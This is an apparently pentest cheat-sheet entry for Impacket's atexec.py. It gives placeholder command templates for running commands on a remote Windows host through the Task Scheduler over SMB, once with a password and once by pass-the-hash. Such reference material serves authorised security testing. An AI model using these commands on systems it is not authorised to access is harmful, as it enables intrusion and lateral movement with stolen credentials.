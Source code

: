 # atexec (imp)

%  windows, impacket-exec

## execute command view the task scheduler 
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
Using \pipe\atsvc via SMB

```
atexec.py <domain>/<user>:<password>@<ip> "command"
```

## pth
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  
Execute command view the task scheduler (using \pipe\atsvc via SMB)

```
atexec.py -hashes <hash> <user>@<ip> "command"
```
